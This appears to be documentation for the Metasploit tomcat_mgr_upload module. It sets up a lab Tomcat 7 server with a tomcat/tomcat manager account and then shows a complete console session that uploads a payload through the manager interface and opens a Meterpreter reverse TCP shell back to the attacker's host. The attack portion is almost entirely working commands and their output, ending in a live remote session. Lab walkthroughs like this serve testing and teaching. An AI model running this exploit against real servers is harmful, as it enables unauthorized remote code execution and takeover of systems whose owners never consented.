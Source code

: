 #### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.73/bin/apache-tomcat-7.0.73.exe)

The install was default, other than adding a user during install.  No other options were changed.

#### Exploitation

1. If a user was not defined at install, you will need to add a `manager-gui` permission user.  Edit `C:\Program Files\Apache Software Foundation\Tomcat 7.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_upload) > check
    [*] 192.168.2.108:8087 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Uploading and deploying vm5yNsROSQ...
    [*] Executing vm5yNsROSQ...
    [*] Undeploying vm5yNsROSQ ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.108:3427) at 2017-01-15 19:25:22 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```
